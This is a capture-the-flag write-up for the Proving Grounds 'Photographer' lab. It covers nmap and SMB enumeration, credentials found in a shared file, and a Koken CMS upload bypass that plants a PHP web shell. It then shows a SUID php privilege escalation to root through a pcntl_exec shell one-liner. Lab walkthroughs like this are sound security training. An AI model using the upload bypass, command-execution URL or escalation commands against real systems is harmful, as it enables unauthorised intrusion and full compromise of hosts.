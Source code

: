 ```yaml
---
title: "Proving grounds Play: Photographer"
layout: post
date: 2023-09-25 02:00
categories: writeup
---
```


Proving grounds Play - Photographer CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 414daa1886948e88a74c6b426076f14f (RSA)
|   256 4da3d07a8f64ef82452d011318b7e013 (ECDSA)
|_  256 1a017a4fcf9585bf31a14f1587ab94e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu)) Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 8000

![img](/assets/images/CTF/Proving_Grounds/Photographer/web1.png)

The meta data in the landing page `http://192.168.193.76:8000/` source revealed the CMS version.

```html
<meta name="generator" content="Koken 0.22.24" />
```
The version `Koken 0.22.24` is vulnerable to [Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)](https://www.exploit-db.com/exploits/48706).

### Directory Fuzzing

http://192.168.193.76:8000/admin/

![img](/assets/images/CTF/Proving_Grounds/Photographer/web2.png)

## SMB Share

Enumerate smb share.

```sh
naveenj@hackerspace:|22:56|~/pg-play/Photographer$ smbclient -L //192.168.193.76/ -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
```

Connect to SMB share.

```sh
naveenj@hackerspace:|22:56|~/pg-play/Photographer$ smbclient  //192.168.193.76/sambashare -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Aug 20 11:51:08 2020
  ..                                  D        0  Thu Aug 20 12:08:59 2020
  mailsent.txt                        N      503  Mon Jul 20 21:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 21:22:23 2020
```

Download mailsent.txt file and view to obtain the credentials for the admin portal.

```text
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

## Credentials

`daisa@photographer.com: babygirl`
Login to the koen admin portal.

## Initial Foothold

After login to the admin portal Direct to `Library - Content - Import Content`.

Create a php remote code execution code or a php reverse shell and save it as `image.php.jpg`. Use Burp Suite to intercept the image upload traffic and change the file name to `image.php`.

Once the file is uploaded click on the file and on the right side scroll down and click view option. Then hover over the image download button and click to trigger the reverse shell.

```text
http://192.168.193.76:8000/storage/originals/f2/10/image.php?cmd=id
```

![img](/assets/images/CTF/Proving_Grounds/Photographer/shell.png)

## Privilege Escalation

### SUID

Enumerate the SUIDs in the sysytem.

```sh
www-data@photographer:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2     #Exploitable
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
www-data@photographer:/$
```

### GTFO Bins

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```sh
sudo install -m =xs $(which php) .

    CMD="/bin/sh"
    ./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

![img](/assets/images/CTF/Proving_Grounds/Photographer/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).